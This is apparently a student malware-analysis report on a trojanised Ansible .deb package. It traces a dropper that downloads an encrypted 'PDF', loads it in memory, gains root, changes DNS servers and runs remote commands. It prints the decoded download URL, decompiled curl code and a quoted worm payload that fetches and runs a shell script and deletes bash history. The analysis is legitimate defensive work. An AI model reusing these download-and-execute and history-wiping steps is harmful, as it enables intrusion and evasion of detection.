

# Project N2
# Definition
It was proposed to us to try to analyze a suspicious code that was found on campus using Reverse engineering techniques that were taught throughout the semester. \
We need to find a response to the following questions:\
- **Do we really have malware?**\
- **How does the malware work and why a deb is used?**\
- **Are other hosts involved?**\
- **What is the potential impact on our organization?**\

# Strategy

First of all, we started with a simple search of what is a deb and what are their components. This is the relevant information that we found:
- Deb is the file format that Debian uses in its distributions
- This archive has 3 files: Debian-binary (Containing package format number), control archive (containing package name, version, dependencies, and maintainer), and data archive(Containing the installable files)

## Integrity check 
As we checked there were too many files a shell script was made (with the help of stack overflow) to check the md5 of entire folders so we could compare them with a  genuine version

## Control
Control is a file that contains the dependencies needed, seeing that the md5 didn't match the original one  we checked this file which contained two added dependencies:
- libcurl4-openssl-dev 
- curl


This may suggest that the malware needs to communicate with an external server to **extravagate information** or **download extra code** from one.

## Data
The false deb has an extra lib folder that is suspicious, besides that, the user folder has a folder where the hashes don't match with the original one.

That folder has an extra file named **ansibled**


### Ansibled
#### Strings
Running the strings command can  give us some useful information, like this:


We can see this file is trying to connect to some socket and using the extra libraries mentioned before
####  File analysis with ghidra
This file flow is based on signal handlers and structures. The structure "DAT_00104190" is considered as a variable and its value will determine if the code will curl or will execute the pdf, as it is in an infinite cycle of sleeps until it detects the pdf and then runs the ReadFile functions.  The first part of the code where a file ansibled.lock is deleted was the only one we couldn't find a reason to.
##### Encrypt
A function started at `0x001016da` that XOR's a second argument with the third and stores the result in the first.

#### Threads
The main function executes a thread that is always listening and waits for a connection to be made to a port reads it and saves it on a variable.
#### Singal handler
On memory address `00101b37`is a function that will be the handler of a signal.

This function points to two others
##### FUN_00101758
At `00101758` this function decodes two strings
-  From `"m6/2m%7+&\'l2&$` to `/tmp/guide.pdf`
-  From `*662xmms{plstzlstrlsvqm%7+&\'l2&$` to `http://192.168.160.143/guid?e.pdf`

Next the code 
```
  local_10 = curl_easy_init();
  if (local_10 != 0) {
    local_18 = fopen(local_a8,"wb");
    local_1c = 0x2712;
    curl_easy_setopt(local_10,0x2712,local_68);
    local_20 = 0x4e2b;
    curl_easy_setopt(local_10,0x4e2b,0);
    local_24 = 0x2711;
    curl_easy_setopt(local_10,0x2711,local_18);
    local_28 = curl_easy_perform(local_10);
    curl_easy_cleanup(local_10);
    if (local_28 != 0) {
      unlink(local_a8);
    }
    fclose(local_18);
  }
```
after searching for a bit we've found this example that very looks like the code above in "https://curl.se/libcurl/c/curl_easy_init.html"

With the all evidence above we can see that this code is doing curl of a PDF file. 
We curled the pdf to see what it was and got a "500 comandos de Linux explicados".  We thought it could be a Polyglot so we checked the hash with a similar one we found online.
- Online:

- What we Curled:

It didn't match

- Online size:   1527251
-  We curled size:  1592968

##### FUN_00101a07 ->ReadFile
This is the second function of the handler and will help us tell what is done with the file.
##### FUN_001019b4-> File decription
Give a pointer, a size, and a byte, it XOR's byte a byte the byte, and the next byte in the pointer

##### FUN_00101870->RunSecretCode
This code works right after the File description function, after the pdf gets decrypted this function copies the pdf to RAM with the name found on "0x64656c6269736e61". Then it loads the pdf as a library and looks for the symbol contained on "&DAT_001020d3" that is "RUN". After knowing the address of that symbol it sends the code to run from there.

## PDF analysis
A code to XOR all the PDF was made. The first function to execute would be the "run" one.

### Run
"Run" is the first function called in the PDF, it starts creating called "ansibled.lock" in /tmp, this file was eliminated in the "ansibled" file, leading us to believe that it is not crash in case this malware is run several times. 

### Proc
#### Change Permissions
At the beginning of the pdf, the program changes its path to `/` and the uid and effective uid to root as seen in the following snippet of code.
```c
  chdir("/");
  setuid(0);
  seteuid(0);
```
#### initConnection
This function checks the sock state, adds one to the list of the number of servers goes to the structure CommService to get the string "192.168.160.143:12345", extracts the port from the IP, and creates a socket IPV4. Using those parameters class ConnectTimeout

#### connectTimout
This function tries to connect to the IP and port specified in a given timeframe.
It starts getting the file status flags 

#### getEndianness

This function always returns "Little".

#### getBuild
This always returns "x86_64"

#### UpdateNameSvrs
This function writes in the "ect/resolve.conf" file the  line "nameserver 193.136.172.20\nnameserver 8.8.8.8\n" changin' the ususal DNS server, probably making an attacker-controlled machine the default DNS

#### RecvLine
(socket, buff, len)
Recebe mensagens no socket byte a byte e guarda no buffer,  retorna o tamano dos dados ou -1 se falhar.


#### ProcessCmd
 This Function receives as 1st parameter the length of the cmd and the second parameter is the actual cmd.
 + TELNET
   + ON
     This is creating a process to do a Telnet Scanner.
   + OFF
     Killing the Telnet Scanner
   + LOAD
     Loading a scanner created it gives 
+ PING
   returns as soon as it enters the if.
+ PY
  + INSTALL
     This is installing a tool called python-paramiko which is an implementation of ssh2 to connect remotely to devices. It also downloaded the file `scan.py` from ``http://192.168.160.143/scan.py``We tried to see the contents of the file but we weren't able to.
     
  + UPDATING
     Removes the file scan.py from the device.
  + LOAD
     Loads and runs the scan.py with extra parameters just like a random number.
  Important to notice that in the end Do'ClearHistory ``clears all the commands done trying to hide its actions.
+ HTTP/UDP/TCP/STD
   Send an HTTP/UDP/TCP/STD request with certain parameters that we are unable to discover without dynamic analysis.
+ KILL
   This kills all processes created
+ UPDATE
   Destroys Temporary files like logs and history.

#### Telnet Scanner
We are uncertain of what this telnet Scanner is, the code is too dense, and many arithmetic operations are done to maintain context and perceive what is done. Although we made some assumptions with some pieces of code, strings, functions, and messages as well as the whole context of the malware.
- This is a scanner for open Telnet ports in the network, it scans the network for Telnet and then tries to brute force them.  
- When it's successful it sends to the attacker's server the information (IP, port, username, and password)
- Then it sends the following payload to the connected machines "cd /tmp;busybox curl 192.168.160.143/a.sh; chmod 777; sh a.sh;rm -rf ~/.bash_history" 
We tried to curl the a.sh but we just got this: 

So we concluded that is once again the initial script in ansibled or something similar, concluding that this is some kind of worm.

##### How it works

The `proc` function initiates by gathering essential system settings before executing the malicious code, utilizing previously defined functions. It manages the execution flow by first waiting for all child processes to terminate and subsequently freeing the associated memory. This memory cleanup continues until it stops receiving the 'PING' command. 
After if the next command encountered is a 'DUP' command, the program stops with `exit(0)`.

The subsequent segment of the function focuses on responding to received commands using the `processCmd` function. Before processing, the function meticulously parses the received command, eliminating unnecessary spaces, removing '\\n', and converting tokens to uppercase. These refined tokens are then organized into an array and passed to `processCmd` for further handling.
# Conclusions


## Response to initial questions
- **Do we really have malware?**\
Yes, although we only have a vague idea of what both the Telnet scanner and the python script do the fact that it changes the DNS server to the infected machine(To then probably redirect to a fake website and steal credentials/cookies).  Also due to the nature of the Python packages installed, we can also deduce that the Python script will be used to connect remotely to the infected machine by the attacker.
- **How does the malware work and why a deb is used?**\
This code is a piece of malware put into an update packet of Ansible. Firstly it downloads a pdf file from "192.168.160.143" that contains code, then it decrypts it to memory so it's not found easily by antivirus and runs from there.  In memory, it changes to the root directory, changes its own permissions to root, changes the default DNS server, and then can execute different commands depending on what commands are given on port "12345" from the same previous IP from a connection established earlier. Those commands can range from protocols TCP/ICMP/HTTP to Telnet scanners, to download and run a python script that most likely based on packages downloaded will let the attacker remotely access the infected machine.
- **Are other hosts involved?**\
Yes, the attacker has most likely control over the machine with IP "192.168.160.143". This IP is crucial to several operations including: Downloading the PDF, Receiving commands to execute with ProccessCMDand downloading the Python script.
- **What is the potential impact on our organization?**\
Compromised Systems: The malware is capable of infiltrating systems by masquerading as an update packet for Ansible. Once inside, it operates stealthily by downloading a PDF file containing malicious code. This code is then decrypted into memory to evade detection by antivirus software.
Privilege Escalation: The malware elevates its privileges by changing to the root directory and altering its permissions. This gives the attacker extensive control over the infected system.
DNS Manipulation: By changing the default DNS server, the malware can redirect users to fake websites designed to steal credentials or cookies. This could lead to sensitive data breaches and compromise the integrity of your organization's network.
Remote Access: The malware includes capabilities for remote access, likely facilitated by a Python script downloaded from the attacker-controlled IP address. This means the attacker can execute commands remotely, potentially leading to further system compromise, data theft, or disruption of services.
Propagation: If other hosts within your organization are vulnerable or connected to the infected systems, there's a risk of lateral movement, allowing the malware to spread and escalate its impact.
Data Exfiltration and Manipulation: Depending on the commands issued by the attacker, the malware can perform various actions, including TCP/ICMP/HTTP protocols, Telnet scanning, and executing arbitrary commands. This could result in data exfiltration, manipulation, or even system damage.
Reputation Damage: A successful attack could severely damage your organization's reputation, eroding customer trust and potentially leading to legal and financial repercussions.

